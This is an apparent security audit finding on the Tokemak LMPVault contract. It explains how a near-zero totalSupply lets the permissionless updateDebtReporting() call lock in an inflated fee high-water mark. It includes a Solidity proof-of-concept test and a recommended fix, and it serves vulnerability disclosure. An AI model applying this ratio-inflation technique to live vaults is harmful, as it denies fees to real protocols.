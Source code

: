 Bent Laurel Caterpillar

medium

# No more fees minted to sink due to inflated ratio when `totalSupply()` is very low
## Summary
The protocol takes a performance fee based on the increase of the `assets/totalSupply` ratio (which represents the accrued yield). This fee is only retrieved if the current ratio is [bigger](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L815) than the recorded in `navPerShareHighMark`. Thus, when the `totalSupply` is low, this ratio can be inflated, preventing fees until the inflated ratio is reached, which could take years.

## Vulnerability Detail
The protocol collects fees in [`_collectFees()`](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L800). 

These fees are based on the [difference](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L818) between the current `totalAssets/totalSupply` and the highest recorded ratio `navPerShareHighMark`.

Under normal conditions (sufficient liquidity), the ratio is expected to grow steadily, taking fees in the progress, while the current ratio increases past the `navPerShareHighMark`.

However, the `totalSupply()` might fall to a very low value, such that it would be easy to inflate the ratio to a very big number.

As the [`updateDebtReporting()`](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L628) function is permissionless, attackers may intentionally call it to collect fees when the ratio is inflated. This would possibly set a very high `navPerShareHighMark`, which would prevent future fees from being recorded. Even if it were permissioned, there is still the chance that the actor missed the fact that the ratio is inflated and would prevent future rewards.

A possible scenario that would trigger this issue is:
1. User deposits into `LMPVault`.
2. Rebalance is triggered to a destination vault.
3. Rewards are queued in the rewarder of the destination vault.
4. n blocks pass by
5. User redeems all but a dust amount of shares (keeping `totalSupply()` low). The `totalIdle` is increased by the rewards from the destination vault.
6. As the total supply is low, but total assets is bigger (due to the rewards), the ratio will be severely inflated.

The following test was added to `LMPVault-Withdraw.t.sol` to replicate the scenario above:
```solidity
function test_POC_NoMoreFeesToSink_dueToInflatedRatio_whenTotalSupplyIsLow() public {
    _accessController.grantRole(Roles.SOLVER_ROLE, address(this));
    _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

    // User is going to deposit 1000 asset
    _asset.mint(address(this), 1000);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, address(this));

    // Deployed 1000 asset to DV1
    _underlyerOne.mint(address(this), 500);
    _underlyerOne.approve(address(_lmpVault), 500);
    _lmpVault.rebalance(
        address(_destVaultOne),
        address(_underlyerOne), // tokenIn
        500,
        address(0), // destinationOut, none when sending out baseAsset
        address(_asset), // baseAsset, tokenOut
        1000
    );

    // rewards accrue in the destination vault
    // mocking here the accrual for sake of the POC
    _accessController.grantRole(Roles.LIQUIDATOR_ROLE, address(this));
    _asset.mint(address(this), 1000);
    _asset.approve(_destVaultOne.rewarder(), 1000);
    MainRewarder(_destVaultOne.rewarder()).queueNewRewards(1000);

    vm.roll(block.number + 100);

    _lmpVault.redeem(998, address(this), address(this));

    assertEq(_lmpVault.totalSupply(), 2);
    assertEq(_lmpVault.totalDebt(), 2);
    assertEq(_lmpVault.totalIdle(), 100);

    // 510000 is 510000/1e4 = 51 times, would take years to get to this ratio to profit
    vm.expectEmit(true, true, true, true);
    emit NewNavHighWatermark(510000, block.timestamp);
    _lmpVault.updateDebtReporting(new address[](0));
}
```
The ratio was inflated to 51 times, which could take years to reach, denying fees to the protocol.

## Impact
Major loss of protocol fees to the sink.

## Code Snippet
`_collectFees()` calculates the fees based on the difference between the current `totalAssets/totalSupply()` ratio and `navPerShareHighMark`, which is the biggest recorded ratio. It only sends fees if the current ratio is bigger than the biggest recorded.
```solidity
function _collectFees(uint256 idle, uint256 debt, uint256 totalSupply) internal {
    ...
    uint256 currentNavPerShare = ((idle + debt) * MAX_FEE_BPS) / totalSupply;
    uint256 effectiveNavPerShareHighMark = navPerShareHighMark;

    if (currentNavPerShare > effectiveNavPerShareHighMark) {
        ...
    }
    ...
}
```


## Tool used

Manual Review

## Recommendation
Return from the `_collectFees()` function early if the `totalSupply()` is smaller than a certain threshold. Inflating the ratio is much harder when there is sufficient liquidity, which is equivalent to having enough `totalSupply()`.